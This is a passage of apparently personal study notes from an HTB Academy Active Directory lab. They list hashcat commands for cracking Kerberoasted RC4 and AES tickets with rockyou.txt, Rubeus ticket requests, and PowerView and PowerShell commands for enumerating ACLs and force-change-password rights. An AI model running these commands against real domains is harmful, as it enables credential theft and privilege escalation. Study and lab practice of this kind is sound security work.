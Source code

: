 ```
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```
Dont forget to modify the hash file be on the same line
#### Running Hashcat for type 17 or type 18
```
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
```
## Checking Supported Encryption Types
```
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
Checking with PowerView, we can see that the msDS-SupportedEncryptionTypes attribute is set to 0. The chart here tells us that a decimal value of 0 means that a specific encryption type is not defined and set to the default of RC4_HMAC_MD5.
### RC4 (type 23) encrypted ticket ($krb5tgs$23$)
#### Cracking the Ticket with Hashcat & rockyou.txt
```
d0x777@htb[/htb]$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```
If we check this with PowerView, we'll see that the msDS-SupportedEncryptionTypes attribute is set to 24, meaning that AES 128/256 encryption types are the only ones supported.
### AES 128/256 encryption tickets ($krb5tgs$17$) or ($krb5tgs$18$)
Requesting a New Ticket
```
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap
```
# Access Control List (ACL)
## ACL Enumeration
### Enumerating ACLs with PowerView
```
$sid = Convert-NameToSid wley
```
Using the -ResolveGUIDs Flag for readable format
```
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
### Creating a List of Domain Users
```
PS C:\htb> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
A Useful foreach Loop
```
PS C:\htb> foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
Performing a Reverse Search & Mapping to a GUID Value
```
PS C:\htb> $guid= "00299570-246d-11d0-a768-00aa006e0529"
```
```
PS C:\htb> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
```
https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password
```